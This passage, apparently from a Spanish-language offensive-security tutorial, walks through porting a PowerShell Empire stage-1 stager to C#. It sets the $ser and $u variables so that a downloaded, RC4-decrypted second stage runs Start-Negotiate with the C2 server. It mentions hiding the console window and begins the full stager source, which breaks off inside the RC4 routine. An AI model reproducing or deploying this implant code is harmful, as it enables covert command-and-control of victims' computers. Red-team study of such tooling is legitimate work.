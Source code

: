 Antes de usar el método Invoke(), necesitamos agregar dos variables a la ecuación, que son **$ser** y **$u**. Si observas el valor de los datos (stage 2), notarás que ejecuta una llamada de función de **Start-Negotiate -s "$ser" -SK 'REPLACE_STAGING_KEY' -UA $u** así que, necesitamos pasar las variables $ser y $u para obtener la ejecución, de lo contrario, obtendríamos un error.

```
// Create the variables $ser and $u which are part of the downloaded stage2
PowerShellInstance.Runspace.SessionStateProxy.SetVariable("ser", server);
PowerShellInstance.Runspace.SessionStateProxy.SetVariable("u", ua);
```

Finalmente, agregué algunas funciones adicionales para ocultar la ventana de cmd, encontrarás más información acerca de cómo hacerlo en los comentarios. Ahora pongamos el código C#  junto y ejecutemos nuestra payload de Empire en C#. El código final debería verse así:

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Management.Automation;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;
 
namespace PSEmpire_Stage1
{
    class Program
    {
        // RC4 Class to decrypt the stage 2 data
        // Created by Jeong ChangWook. Source https://gist.github.com/hoiogi/89cf2e9aa99ffc3640a4
        public class RC4
        {
            public static byte[] Encrypt(byte[] pwd, byte[] data)
            {
                int a, i, j, k, tmp;
                int[] key, box;
                byte[] cipher;
 
                key = new int[256];
                box = new int[256];
                cipher = new byte[data.Length];
 
                for (i = 0; i < 256; i++)
                {
                    key[i] = pwd[i % pwd.Length];
                    box[i] = i;
                }
                for (j = i = 0; i < 256; i++)
                {
                    j = (j + box[i] + key[i]) % 256;
                    tmp = box[i];
                    box[i] = box[j];
                    box[j] = tmp;
                }
                for (a = j = i = 0; i < data.Length; i++)
                {
                    a++;
                    a %= 256;
                    j += box[a];
                    j %= 256;
                    tmp = box[a];
                    box[a] = box[j];
                    box[j] = tmp;
                    k = box[((box[a] + box[j]) % 256)];
```